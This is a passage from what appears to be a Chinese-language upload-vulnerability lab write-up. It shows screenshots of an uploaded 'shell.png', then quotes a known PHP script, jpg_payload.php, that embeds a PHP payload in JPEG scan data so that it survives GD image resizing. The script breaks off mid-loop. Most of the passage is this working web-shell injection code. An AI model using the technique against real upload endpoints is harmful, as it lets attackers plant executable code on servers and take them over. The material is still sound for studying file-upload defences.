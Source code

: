 运行之后得到shell.png<br />![image-20210604094444550.png](./assets/1656467378009-07e0f328-7667-4665-ab3a-158b50239346.png)

可成功上传<br />![image-20210604094841923.png](./assets/1656467383776-4eba57a8-4d3c-47ad-b303-9b04b25febdf.png)

上传后下载到本地打开如下图<br />![image-20210604094514150.png](./assets/1656467388270-b38c83f4-5a44-432f-96fb-4cb5be57d373.png)


## 上传png图片

### 利用
这里也采用国外大牛编写的脚本jpg_payload.php
```php
<?php
  /*
  The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
  It is necessary that the size and quality of the initial image are the same as those of the processed image.    1) Upload an arbitrary image via secured files upload script
  2) Save the processed image and launch:
  jpg_payload.php <jpg_name.jpg>
  In case of successful injection you will get a specially crafted image, which should be uploaded again.    Since the most straightforward injection method is used, the following problems can occur:
  1) After the second processing the injected data may become partially corrupted.    2) The jpg_payload.php script outputs "Something's wrong".
  If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
  Sergey Bobrov @Black2Fan.
  See also:
  https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
  */
$miniPayload = "<?=phpinfo();?>";
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
  die('php-gd is not installed');
}
if(!isset($argv[1])) {
  die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
  $nullbytePayloadSize = $pad;
  $dis = new DataInputStream($argv[1]);
  $outStream = file_get_contents($argv[1]);
  $extraBytes = 0;
  $correctImage = TRUE;
  if($dis->readShort() != 0xFFD8) {
    die('Incorrect SOI marker');
  }
  while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
    $marker = $dis->readByte();
    $size = $dis->readShort() - 2;
    $dis->skip($size);
    if($marker === 0xDA) {
      $startPos = $dis->seek();
      $outStreamTmp =
        substr($outStream, 0, $startPos) . 
        $miniPayload .
        str_repeat("\0",$nullbytePayloadSize) .
        substr($outStream, $startPos);
      checkImage('_'.$argv[1], $outStreamTmp, TRUE); 
      if($extraBytes !== 0) {
        while((!$dis->eof())) { 
```
